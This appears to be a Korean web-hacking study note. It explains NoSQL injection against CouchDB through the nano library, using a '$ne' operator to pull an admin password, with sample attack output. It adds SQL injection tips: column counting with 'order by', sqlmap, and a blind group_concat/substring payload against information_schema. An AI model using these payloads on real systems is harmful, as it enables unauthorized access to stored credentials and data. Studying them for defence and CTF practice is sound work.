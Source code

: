 객체 형태의 데이터를 입력받을 때 입력 값에 대한 검사가 부재하거나 미흡하다면 문제가 발생할 수 있음
selector 안에서 operator를 사용할 수 있는데, 연산자가 이에 포함됨
따라서 공격자가 조건 식을 만들고, 조건에 해당하지 않는 데이터를 모두 획득할 수 있음
아래는 각각 올바르게 데이터를 조회하는 모습과 연산자를 통해 데이터베이스의 중요 정보를 획득한 모습
이처럼 find 함수의 인자로 이용자의 입력 값이 전달되고, 문자열 타입이 아닌 객체 타입의 값을 입력할 수 있다면 데이터베이스의 중요 정보를 획득할 수 있음

		//정상적인 쿼리 전송

> require('nano')('http://{username}:{password}@localhost:5984').use('users').find({'selector': {'_id': 'guest', 'upw': 'guest'}}, function(err, result){ console.log('err: ', err, ',result: ', result) })

	/*
	undefined
	err:  null ,result:  { docs:
	   [ { _id: 'guest',
		   _rev: '1-22a458e50cf189b17d50eeb295231896',
		   upw: 'guest' } ],
	  bookmark:
	   'g1AAAAA6eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzppemFpeAJDlgkgjhLADZAxEP',
	  warning:
	   'No matching index found, create an index to optimize query time.' }
	*/

	//연산자를 포함한 공격 쿼리 전송

> require('nano')('http://{username}:{password}@localhost:5984').use('users').find({'selector': {'_id': 'admin', 'upw': {'$ne': ''}}}, function(err, result){ console.log('err: ', err, ',result: ', result) })

	/*
	undefined
	err:  null ,result:  { docs:
	   [ { _id: 'admin',
		   _rev: '2-142ddb6e06fd298e86fa54f9b3b9d7f2',
		   upw: 'secretpassword' } ],
	  bookmark:
	   'g1AAAAA6eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzJqbkZuaBJDlgkgjhLADVNBDR',
	  warning:
	   'No matching index found, create an index to optimize query time.' }
	*/





# Tip
### union select 컬럼개수 맞추기
' union select 1,2,3,4,5,6 이런식으로 노가다하는거보단
order by 8 이런식으로 하는게 찾기 편함
order by 8이면 8번째 행으로 정렬한다는 의미

허용이 된다면 sqlmap이 최고

### group_concat
자동화 스크립트 사용할 때, 동시에 여러 컬럼의 데이터를 가져와야 하는 경우가 있다.
이때, group_concat을 사용하면 동시에 여러 컬럼 데이터를 참조할 수 있다.
	31 and substring((select group_concat(table_name,0x3a,column_name) from information_schema.columns  WHERE table_schema = 'flag'),1,1)="w";